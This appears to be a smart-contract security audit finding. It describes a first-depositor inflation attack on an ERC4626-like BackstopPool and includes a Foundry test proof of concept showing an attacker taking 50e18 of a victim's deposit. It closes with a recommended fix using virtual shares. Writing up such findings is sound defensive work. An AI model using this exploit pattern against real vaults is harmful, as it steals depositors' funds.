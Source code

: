 - The BackstopPool, which operates similarly to an ERC4626 vault, is susceptible to an inflation attack.
- An attacker can exploit this vulnerability by making a minimal initial deposit (e.g., 1 wei), and then artificially inflating the totalPoolWorth.
- This manipulation causes the base share price to be significantly higher, affecting all subsequent deposits.
- Due to rounding down, if the malicious initial deposit front-runs other deposits, the attacker will receive 1 wei worth of shares at the inflated price.

Below is a proof-of-concept (PoC) demonstrating this attack:

```solidity
    function testInflationAttack() public {
        bytes[] memory _mockUpdateData = _makeMockPriceUpdateData(BACKSTOP_ASSETS_QUANTITY);
        uint256 _updateFee = pythAdapter.getUpdateFee(_mockUpdateData);
        address attacker = makeAddr("Attacker");
        address victim = makeAddr("Victim");

        setupPostion(attacker);
        backstop.deposit{value: _updateFee}(
            1 wei,
            0,
            block.timestamp + USER_DEADLINE_TOLERANCE,
            _mockUpdateData
        );
        usd.transfer(address(backstop), 100 ether);
        vm.stopPrank();

        setupPostion(victim);
        backstop.deposit{value: _updateFee}(
            200 ether,
            0,
            block.timestamp + USER_DEADLINE_TOLERANCE,
            _mockUpdateData
        );
        vm.stopPrank();

        vm.prank(attacker);
        backstop.initiateWithdraw(1 wei);

        vm.warp(INITIAL_WITHDRAWAL_DELAY_PERIOD + 1);

        uint256 balanceBefore = IERC20(backstop.asset()).balanceOf(attacker);

        vm.prank(attacker);
        backstop.finalizeWithdrawBackstopLiquidity{value: _updateFee}(
            1 wei,
            block.timestamp + USER_DEADLINE_TOLERANCE,
            _mockUpdateData
        );

        uint256 balanceAfter = IERC20(backstop.asset()).balanceOf(attacker);

        console.log(balanceAfter - balanceBefore); // 150e18
    }
```

As demonstrated, the attacker successfully gained 50e18 assets.

> Full setup: [link](https://gist.github.com/0xbtk/7d53c10f222da80ece9aa4b5b8f49fb7)

Consider minting a fixed amount of shares for the first deposit or use "virtual shares" as it is implemented in ERC4626.
